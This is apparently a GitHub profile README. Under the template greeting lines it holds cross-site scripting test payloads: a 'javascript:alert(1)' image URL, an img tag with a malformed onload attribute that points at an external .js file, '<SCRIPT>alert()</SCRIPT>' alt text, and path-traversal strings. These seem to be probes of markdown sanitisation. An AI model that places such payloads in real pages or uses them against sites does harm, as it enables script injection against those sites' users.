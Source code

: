 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![

<img \onload="../../../../../../../\r89shi.github.io/teste.js" alt="<SCRIPT>alert()</SCRIPT>">
<img src='../../../../../../../r89shi/gitbook.fluig.snippets/blob/main/README.md' >

](()

